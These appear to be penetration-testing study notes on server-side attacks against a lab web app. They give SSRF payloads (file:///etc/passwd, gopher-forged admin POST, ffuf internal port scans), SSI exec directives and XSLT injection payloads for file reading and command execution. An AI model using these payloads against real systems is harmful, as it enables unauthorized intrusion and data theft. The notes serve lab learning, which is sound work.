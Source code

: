 # Server-Side Attacks

## SSRF

[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

### Identification

Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):

- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
- Use burp to check post parameter for dynamically loaded content.
- Try changing the request to see if error infromation.
- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.

### Exploitation

- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.

- internal portscan by accessing ports on localhost:

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

- accessing restricted endpoints:

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

- Consider we find and endpoint admin.php through fuzzing which returns a POST form:

![admin.php](../images/admin_php.png){width=300}

### Protocols

- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
- `file:///etc/passwd` can be used for local file inclusion
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services

## SSTI
### Exploitation
Templating Engines are used to dynamically generate content

### Test String
- `${{<%[%'"}}%\.`

## SSI Injection - Directives
| Directive | Description |
|-----------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |

## XSLT Injection
### Elements
| Element | Description |
|---------|-------------|
| `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
| `<xsl:value-of>` | Extracts the value of the XML node specified in the select attribute |
| `<xsl:for-each>` | Enables looping over all XML nodes specified in the select attribute |
| `<xsl:sort>` | Specifies the node to sort elements in a for loop by in the select argument. A sort order may be specified in the order argument |
| `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |

### Injection Payloads
#### Information Disclosure
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="system-property('xsl:version')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | |
| `<xsl:value-of select="system-property('xsl:product-name')" />` | |
| `<xsl:value-of select="system-property('xsl:product-version')" />` | |

#### LFI
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | |

#### RCE
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="php:function('system','id')" />` | |